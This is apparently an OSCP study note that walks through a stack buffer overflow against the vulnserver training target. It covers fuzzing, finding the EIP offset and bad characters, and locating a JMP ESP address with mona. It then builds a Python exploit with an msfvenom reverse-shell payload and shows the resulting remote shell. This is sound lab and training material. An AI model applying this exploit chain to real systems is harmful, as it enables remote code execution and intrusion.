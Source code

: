 ```yaml
---
aliases:
  - Exploit Development
tags:
  - tech
  - cybsec
  - certification
  - oscp
  - exploit_development
author: Mehdi N Tehrani
creat_date: 2023-12-06
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```

# Buffer Overflow
#buffer_overflow 
![[Pasted image 20231207154344.png]]

![[Pasted image 20231207180923.png]]
# Vulnserver
a vulnerable server used for learning buffer overflow attack
 - Disable Windows defender 'Real-time Virus protection'
 - Download vulnserver from https://github.com/stephenbradshaw/vulnserver
 - Run vulnserver in the Windows machine
 - Connect from the attacker machine to vulnserver: `nc $vulnserver_ip 9999`
 - Download *immunity Debugger*, install, run and attach to the vulnserver process
	 - https://www.immunityinc.com/products/debugger/

## generic_send_tcp
In the attacker machine use this command to spike or fuzz the vulnserver
`generic_send_tcp <ip> <port> <script_to_run> 0 0`


# Find EIP offset
```sh
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100
```

```python3
#!/usr/bin/python3
import sys, socket

HOST = ''
PORT = 9999
buffer = '' # copy-paste the pattern generated by pattern_create script

while True:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((HOST, PORT))
		s.send(bytes('TRUN /.:/' + buffer, 'latin-1'))
		s.close()
	except:
		sys.exit()
```

The value found in EIP: `386F4337`
```
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -q '386F4337'
[*] Exact match at offset 2003
```
EIP Offset found: **2003**

# Find badchars
#badchars
Easier way to find bad characters is to use **mona.py** script - refer to the section below **Find return address**
Here is the manual method:
- Get a list of bad chars from https://github.com/cytopia/badchars
- add to the end of the buffer
- perform the attack and check ESP
- Right-click on the value in ESP and *Follow in Dump*
- identify bad characters by finding those which do not appear in hex dump
	- if two consecutive chars are not found, most likely just the first one needs to be removed
```
shell_code = ''      # to be added later 
buffer += 'A' * (2003 - len(buffer))      # shell code and 'A' padding to fill up to EIP
buffer += 'BBBB'      # this should appear in EIP
buffer += badchars
```

![[Pasted image 20231207181936.png]]
# mona.py
#mona_py
Use this script to find the modules which do not have memory protection
download `mona.py` from https://github.com/corelan/mona and add to  `C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands\`

run in Immunity debugger using  `!mona modules`

This output shows modules used in the binary of this process. Those with all protections set to *false*  are candidates for exploitation.
![[Pasted image 20231207132812.png]]

# Find return address 
## Method 1
This is a simpler method. While immunity debugger is attached to vulnserver, run the following mona command:
`!mona jmp -r ESP -m "essfunc.dll"`

## Method 2
### nasm_shell
#nasm_shell
Use `nash_shell.rb`  to find out the op code for JMP
```
$ /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm> JMP ESP
00000000  FFE4                  jmp esp
```
### Find return address in a vulnerable module
We found out that `essfunc.dll` is a vulnerable module
Run command in immunity to find where this op code has been used
`!mona find -s '\xff\xe4' -m "essfunc.dll"`

## use mona to find badchars
```
!mona config -set workingfolder <path>`   --> set working folder to store output
!mona bytearray -cpb "\x00"`       --> generate badchars list and remove \x00
!mona compare -f <path>\bytearray.bin -a <address>     --> the address is found in ESP when access violation happens. This returns the bad chars
```

# Use Shell code and Overwrite EIP
- Use metasploit to build a reverse shell payload 
```
msfvenom windows/shell_reverse_tcp LHOST="<attacker_ip>" LPORT=<port> -f c -a x86 -b "\x00"
                                                                       ^ file type
                                                                            ^ architecture
                                                                                   ^ bad characters to exclude
```

- Add the generated shell code bytes to python script
```
shell_code = ()      # shell code bytes generated by msfvenom is added here
buffer += 'A' * (2003 - len(buffer))      # 'A' padding to fill up to EIP
buffer += '\xaf\x11\x50\x62'      # return address found by mona - should populate EIP
nop_slide = '\x90' * 32       # nop slide to provide some safety padding for the shell code
buffer += nop_slide + shell_code
```
- Set up a listener on the attacker machine:  e.g. `nc -nvlp 7777`
- Perform the attack!
```
C:\Users\mnadj\Desktop\vulnserver>whoami
whoami
mnthw10v\mnadj

C:\Users\mnadj\Desktop\vulnserver>systeminfo
systeminfo

Host Name:                 MNTHW10V
OS Name:                   Microsoft Windows 10 Home
OS Version:                10.0.19044 N/A Build 19044
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
[SNIPPED]
```
SUCCESS!
